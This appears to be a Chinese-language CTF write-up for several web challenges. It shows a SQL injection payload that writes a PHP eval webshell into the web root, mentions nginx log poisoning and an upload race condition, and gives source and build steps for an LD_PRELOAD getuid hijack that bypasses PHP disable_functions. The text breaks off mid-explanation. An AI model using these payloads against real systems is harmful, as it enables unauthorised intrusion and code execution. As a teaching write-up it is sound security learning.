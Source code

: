 #### web17-22

向nginx访问日志中注入php代码，蚁剑连接webshell

#### web23-24

条件竞争访问上传的php。

#### 获得百分之百的快乐

登录处sql注入，向目录中写入webshell进行连接。

```sql
admin' union select '<?php eval($_POST[1]) ?>' into outfile '/var/www/html/shell.php'
```

连接后发现flag.php提示flag在环境变量里，这里有两种方式输出结果。

第一种相对简单，直接新建一个php文件，内容：

```php
<?php
	print_r($_SERVER);
?>
```

随后浏览器访问即可获得flag。

第二种比较复杂，借助LD_PRELOAD环境变量劫持突破disable_functions。

简单说一下原理，```LD_PRELOAD```是linux中的一个环境变量，如果使用`LD_PRELOAD`环境变量指定了一个共享库或共享对象，那么这个共享对象会在其他对象加载前被加载。例如```LD_PRELOAD=/tmp/a.so /bin/ls```,即在执行`ls`命令前，会先加载指定路径的a.so文件，如果这是一个恶意共享对象，那么可以执行任意操作。

我们可以通过LD_PRELOAD突破disable_functions，流程如下：

1.编写恶意 C 函数，并编译成共享对象；

2.在`php`执行过程中找到一个函数，这个函数能够产生一个新的进程；

3.通过`putenv`设置`LD_PRELOAD`环境变量，使得新产生的进程优先加载恶意共享对象。

首先由于被劫持的系统函数得由我们重新实现一次，函数原型必须一致，为减少复杂性，我们需要找到一个无参数且常用的系统函数，方便我们进行劫持操作。经过对几个常用命令的寻找``` readelf -Ws /usr/bin/id```，我们发现了getuid()函数符合要求。```man getuid```查看一下函数定义，随后重写该函数。

```c
// getuid_evil.c
#include <unistd.h>
#include <sys/types.h>

uid_t getuid (void){
	system("echo 'pwn it!'");
	return 0;
}
```

随后编译成共享对象,```gcc -shared -fPIC getuid_evil.c -o getuid_evil.so```。

最后，借助环境变量 LD_PRELOAD 劫持系统函数 getuid()，获取控制权。执行 LD_PRELOAD=/home/getuid_evil.so /usr/bin/id，注入代码成功执行。

下面我们需要找寻内部启动新进程的 PHP 函数。虽然 LD_PRELOAD 提供了劫持系统函数的能力，但前提是得控制 php 启动外部程序才行。常见的 system() 启动程序方式显然不行，否则就不存在突破 disable_functions 一事了。PHP 脚本中除了调用 system()、exec()、shell_exec() 等等一堆 php 函数外，还有可能是php本身函数存在启动新进程。比如，php 函数 a() 实现“前进”的功能，php 函数 a() 又由组成 php 解释器的 C 语言模块之一的 b.c 实现，C 模块 b.c 内部又通过调用外部程序 c.bin 实现，那么，我的 php 脚本中调用了函数 a()，势必启动外部程序 c.bin。现在，我需要找到类似 a() 的真实存在的 PHP 函数。
